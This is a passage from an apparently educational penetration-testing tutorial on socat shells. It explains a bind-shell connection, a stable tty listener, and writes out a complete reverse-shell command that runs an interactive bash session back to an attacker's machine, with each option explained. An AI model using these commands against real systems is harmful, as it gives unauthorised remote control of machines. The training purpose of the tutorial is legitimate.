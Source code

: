 We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

socat TCP:<TARGET-IP>:<TARGET-PORT> -

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

socat TCP-L:<port> FILE:`tty`,raw,echo=0

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, stty raw -echo; fg trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command.
This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a precompiled socat binary, which can then be executed as normal.

The special command is as follows:

socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. 
The second part of the command creates an interactive bash session with  EXEC:"bash -li". 
We're also passing the arguments: pty, stderr, sigint, setsid and sane:

pty, allocates a pseudoterminal on the target -- part of the stabilisation process
stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
setsid, creates the process in a new session
sane, stabilises the terminal, attempting to "normalise" it.
That's a lot to take in, so let's see it in action.

As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. 
Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:

Note that the socat shell is fully interactive, allowing us to use interactive commands such as SSH. 
This can then be further improved by setting the stty values as seen in the previous task, which will let us use text editors such as Vim or Nano.

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding -d -d into the command. 
This is very useful for experimental purposes, but is not usually necessary for general use.

